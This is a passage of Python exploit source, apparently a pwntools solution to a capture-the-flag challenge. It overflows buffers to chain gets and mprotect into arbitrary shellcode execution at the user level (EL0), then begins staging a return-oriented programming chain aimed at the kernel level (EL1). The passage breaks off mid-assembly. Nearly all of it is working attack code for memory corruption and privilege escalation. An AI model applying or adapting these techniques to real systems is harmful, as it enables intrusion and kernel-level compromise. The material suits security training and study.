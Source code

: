 ```python
    p.sendlineafter(b"cmd> ", b"1")
    p.sendlineafter(b"index: ", str(idx).encode())
    p.sendlineafter(b"key: ", key)


def el0_arbitrary_code_execute(assembly: str) -> None:
    pl = b"a" * 0x100
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(el0_elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(el0_elf.symbols["main"] + 0x44)
    pl += p64(el0_elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(el0_elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def el1_return_oriented_programming(
    rop_chain: list[int],
    el0_head_assembly: str = "",
    head_input: bytes = b"",
    el0_tail_assembly: str = "",
    tail_input: bytes = b"",
) -> None:
    ROP_CHAIN_ADDR = 0xFFFFFFFFC0019C00
    EL1_SYSCALL_HANDLER_RET_ADDR = 0xFFFFFFFFC0019BB8

    rop_chain = rop_chain[:2] + [0] * 2 + rop_chain[2:]
    rop_chain = b"".join([p64(gadget) for gadget in rop_chain])
    assert b"\n" not in rop_chain and len(rop_chain) <= 0x420

    el0_arbitrary_code_execute(
        el0_head_assembly
        + f"""  
        mov x22, xzr;\n
        ldr x23, ={len(rop_chain)};\n
        ldr x24, ={ROP_CHAIN_ADDR};\n
        read_rop_chain:
            mov x0, 0;\n
            add x1, x24, x22;\n
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
```